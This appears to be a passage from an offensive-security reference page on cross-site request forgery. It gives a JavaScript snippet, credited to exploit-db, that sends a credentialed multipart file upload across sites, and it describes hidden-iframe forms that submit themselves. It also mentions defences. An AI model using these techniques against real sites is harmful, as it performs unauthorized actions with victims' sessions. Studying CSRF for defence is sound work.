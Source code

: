 In this example, the request includes a file named `example.jpg` and a form field named `description`. The binary data of the file is included in the request body, separated by the specified boundary.

#### References

- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
```javascript
// https://www.exploit-db.com/exploits/20009
var fileSize = fileData.length,
boundary = "OWNEDBYOFFSEC",
xhr = new XMLHttpRequest();
xhr.withCredentials = true;
xhr.open("POST", url, true);
//  MIME POST request.
xhr.setRequestHeader("Content-Type", "multipart/form-data, boundary="+boundary);
xhr.setRequestHeader("Content-Length", fileSize);
var body = "--" + boundary + "\r\n";
body += 'Content-Disposition: form-data; name="' + nameVar +'"; filename="' + fileName + '"\r\n';
body += "Content-Type: " + ctype + "\r\n\r\n";
body += fileData + "\r\n";
body += "--" + boundary + "--";

//xhr.send(body);
xhr.sendAsBinary(body);
```
### Form POST request from within an iframe

#### English

When an HTML form is submitted, the browser sends a POST request to the specified URL. This behavior can be exploited in a Cross-Site Request Forgery (CSRF) attack when the form is submitted from within an iframe.

To perform a CSRF attack using an iframe, an attacker can create a hidden iframe on a malicious website that contains a form with the target URL as its action. The attacker can then use JavaScript to automatically submit the form when the user visits the malicious website.

When the form is submitted, the browser will send a POST request to the target URL, including any data entered by the user. This can lead to unauthorized actions being performed on the user's behalf, as the browser will include any authentication cookies associated with the target website.

To prevent CSRF attacks, it is important to implement proper CSRF protection mechanisms, such as using anti-CSRF tokens or checking the origin of the request.

#### Klingon

